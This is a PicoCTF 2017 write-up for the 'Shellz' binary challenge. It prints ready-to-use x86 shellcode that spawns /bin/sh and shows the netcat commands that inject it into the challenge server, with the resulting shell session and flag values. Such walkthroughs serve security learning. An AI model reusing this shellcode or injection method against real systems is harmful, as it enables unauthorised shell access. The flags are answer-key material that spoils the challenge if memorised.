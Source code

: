 # PicoCTF_2017: Shellz

**Category:** Binary
**Points:** 55
**Description:**

>You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:23459.

**Hint:**

>There is a bunch of preexisting shellcode already out there!

## Write-up
The biggest problem with this challenge is the limited amount of shellcodes that would actually work here. It probably took me like 15 tries before I got the [correct shellcode](http://shell-storm.org/shellcode/files/shellcode-841.php). So first, prepare the payload.

    python -c "print('\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" > payload

Then, use the payload like this

    cat payload - | nc shell2017.picoctf.com 23459
    My mother told me to never accept things from strangers
    How bad could running a couple bytes be though?
    Give me 40 bytes:
    ls
    flag.txt
    shellz
    shellz_no_aslr
    xinetd_wrapper.sh
    cat flag.txt
    a15898b0a97abc19164f240407d6c51b

or 

	(python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'; cat -) | nc shell2017.picoctf.com 23459
	My mother told me to never accept things from strangers
	How bad could running a couple bytes be though?
	Give me 40 bytes:
	ls
	flag.txt
	shellz
	shellz_no_aslr
	xinetd_wrapper.sh
	cat flag.txt
	5b5ba2c3b5558ec86315fd52b0c55a87

Therefore, the flag is `5b5ba2c3b5558ec86315fd52b0c55a87`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2NzE5MzMyOTgsLTEyNjQ5MzAyMTcsLT
Q0NzM1Mjc0XX0=
-->